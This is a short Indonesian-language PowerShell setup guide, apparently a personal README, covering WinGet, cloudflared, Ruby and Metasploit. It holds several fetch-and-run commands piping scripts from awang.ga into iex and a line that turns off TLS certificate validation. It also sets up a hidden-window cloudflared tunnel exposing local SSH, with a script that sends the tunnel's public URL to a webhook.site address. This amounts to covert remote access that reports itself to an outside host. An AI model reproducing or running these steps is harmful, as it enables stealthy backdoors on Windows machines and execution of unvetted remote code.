

# Setup dan Konfigurasi

Install WinGet mode Administrator
```ps1
irm -useb 'https://awang.ga/winget.ps1' | iex
```

Install Cloudflared
```ps1
winget install --id Cloudflare.cloudflared
```

Use public SSH
```ps1
cloudflared tunnel --url ssh://127.0.0.1:50123
```


SFTP Config : 
```ps1
cloudflared access ssh --hostname %host
```

.ssh/config
```ps1
Host *.trycloudflare.com
  ProxyCommand cloudflared access ssh --hostname %h
```

Hidden Running Powershell
```ps1
Start-Process -FilePath "cloudflared.exe" `
-ArgumentList "tunnel --url ssh://127.0.0.1:50123 --logfile $HOME\tunnel.log" `
-WindowStyle Hidden
```

Read Log and Post
```ps1
# Tunggu beberapa detik sampai log terisi
Start-Sleep -Seconds 5

$logPath = "$HOME\tunnel.log"
$apiUrl = "https://webhook.site/3bfc5b52-e8cb-4e60-9cec-68fd5bdde08c" # Ganti dengan URL API

# Mencari pola URL trycloudflare di dalam log
$content = Get-Content $logPath -Raw
$match = [regex]::Match($content, 'https://[a-zA-Z0-9-]+\.trycloudflare\.com')

if ($match.Success) {
    $tunnelUrl = $match.Value
    Write-Host "URL Ditemukan: $tunnelUrl"

    # Kirim ke API menggunakan Method POST
    $body = @{
        url = $tunnelUrl
        timestamp = (Get-Date).ToString("yyyy-MM-dd HH:mm:ss")
        status = "active"
    } | ConvertTo-Json

    Invoke-RestMethod -Uri $apiUrl -Method Post -Body $body -ContentType "application/json"
    Write-Host "Berhasil dikirim ke API."
} else {
    Write-Host "URL tidak ditemukan di log. Pastikan tunnel berjalan."
}
```

[Install Ruby](https://github.com/oneclick/rubyinstaller2/releases/download/RubyInstaller-3.3.6-1/rubyinstaller-devkit-3.3.6-1-x64.exe)

  


Install pcaprub dependencies dari PowerShell Administrator

```ps
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true} ; [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; (New-Object System.Net.WebClient).DownloadFile('https://www.winpcap.org/install/bin/WpdPack_4_1_2.zip', 'C:\Windows\Temp\WpdPack_4_1_2.zip')

Expand-Archive -Path "C:\Windows\Temp\WpdPack_4_1_2.zip" -DestinationPath "C:\"
```

```ps
gem install pcaprub
ruby -v
gem install bundler
Install-WinGetPackage -id PostgreSQL.PostgreSQL.17
```

```ps1
irm -useb 'https://awang.ga/metasploit.ps1' | iex
```

Install Metasploit
```ps1
[CmdletBinding()]
Param(
    $DownloadURL = "https://windows.metasploit.com/metasploitframework-latest.msi",
    $DownloadLocation = "$env:APPDATA/Metasploit",
    $InstallLocation = "C:\Tools",
    $LogLocation = "$DownloadLocation/install.log"
)

If(! (Test-Path $DownloadLocation) ){
    New-Item -Path $DownloadLocation -ItemType Directory
}

If(! (Test-Path $InstallLocation) ){
    New-Item -Path $InstallLocation -ItemType Directory
}

$Installer = "$DownloadLocation/metasploit.msi"

Invoke-WebRequest -UseBasicParsing -Uri $DownloadURL -OutFile $Installer

& $Installer /q /log $LogLocation INSTALLLOCATION="$InstallLocation"
```
